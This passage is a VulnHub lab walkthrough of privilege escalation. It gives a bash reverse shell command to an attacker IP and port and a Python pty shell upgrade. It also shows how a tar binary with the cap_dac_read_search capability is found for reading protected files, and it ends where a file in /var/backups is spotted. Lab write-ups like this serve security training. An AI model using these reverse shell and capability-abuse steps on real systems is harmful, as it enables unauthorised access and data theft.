 ## Priviledge Esacalation

Firstly, let's establish a `robust reverse shell` on our system using the available CLI:

```
sh -i >& /dev/tcp/192.168.75.128/9001 0>&1
```

![image](https://github.com/vsang181/VulnHub/assets/28651683/bab44988-850e-4501-82a8-25dc12fa2645)

Next, we enhance our shell using Python:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image](https://github.com/vsang181/VulnHub/assets/28651683/d2d4a2e6-307b-4378-999f-f24b303a5c65)

Attempting to run `sudo -l` results in an error indicating the absence of the `sudo command`.

![image](https://github.com/vsang181/VulnHub/assets/28651683/a502c8c8-6ab4-439b-9e94-72ac7d1be918)

However, a simple `ls` command reveals another file named `tar` in the same directory as the `user.txt` file, which contains the user flag. Let's examine this file more closely.

![image](https://github.com/vsang181/VulnHub/assets/28651683/74a27fd5-4145-4ed6-ab15-072e50c9fd91)

It appears we've discovered an `executable file`. 

We'll check its permissions:

![image](https://github.com/vsang181/VulnHub/assets/28651683/bfd75573-1559-46ad-85c4-945e25b73774)

It turns out we have execution permissions for this file. Using the `cat` command on this file only returns gibberish, as it is an executable.

Let's try using the `--help` command:

![image](https://github.com/vsang181/VulnHub/assets/28651683/80853f23-d305-477a-b8a0-7929294dd47b)

This is intriguing as it suggests we can compress any file into a single archive.

To understand the capabilities of this executable, we use the `getcap` command:

![image](https://github.com/vsang181/VulnHub/assets/28651683/252cda7f-d8ac-46f6-85fb-f49b06aaf3fe)

A quick Google search reveals that `cap_dac_read_search` allows for reading files without proper permissions, as detailed on the [linux manual](https://man7.org/linux/man-pages/man7/capabilities.7.html) page.

![image](https://github.com/vsang181/VulnHub/assets/28651683/d3a40822-03a2-4059-985f-eef3e3c915b5)

After scouring the system for files with noteworthy permissions that could be exploited using our executable, a particular file in `/var/backups` caught my attention.

![image](https://github.com/vsang181/VulnHub/assets/28651683/ac43664d-7df1-4540-9f01-cbccc4aa0dbe)
